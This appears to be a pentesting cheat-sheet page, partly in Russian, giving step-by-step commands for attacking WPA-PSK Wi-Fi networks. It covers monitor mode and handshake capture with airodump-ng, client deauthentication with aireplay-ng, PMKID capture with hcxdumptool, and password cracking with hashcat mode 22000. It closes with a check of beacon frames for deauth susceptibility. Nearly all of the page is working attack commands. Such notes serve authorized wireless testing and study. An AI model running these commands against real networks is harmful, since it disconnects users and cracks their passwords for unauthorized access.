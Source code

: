 # PSK

### Handshake

#### Start monitoring mode

```bash
$ airmon-ng start wlan0
```

#### Monitor networks

```bash
$ airodump-ng wlan0
```

#### Dump target’s traffic

```bash
$ airodump-ng -c CHANNEL --bssid BSSID -w ESSID wlan0
```

#### Deauth clients

```
 aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

Where:

* 0 means deauthentication
* 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
* a 00:14:6C:7E:40:80 is the MAC address of the access point
* c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
* ath0 is the interface name

### PMKID

[https://habr.com/ru/companies/jetinfosystems/articles/419383/](https://habr.com/ru/companies/jetinfosystems/articles/419383/)

Начните захват PMKID хешей для указанных беспроводных сетей:

`echo HH:HH:HH:HH:HH:HH | sed 's/\\://g' >> filter.txt hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist`

install

```bash

sudo apt install hcxtools
```

grab

```bash
sudo hcxdumptool -i wlan0 -w hcx.cap
```

loot

```bash
hcxpcapngtool hcx.cap -o hcx.hc22000
```

check

```bash
hcxhashtool --info=stdout -i hcx.hc22000
```

brute

```bash
hashcat -m 22000 hcx.hc22000 wordlist
```

### Check possibless deauth

sniff traffic, find `Beacon Frame`\
IEEE 802.11 Wireless Management -> Tagged parameters -> Tag: RSN Information -> RSN Capabilities: 0x0028\
If frame protection `false` that we can deauth clients

![](<../../.gitbook/assets/изображение (2).png>)
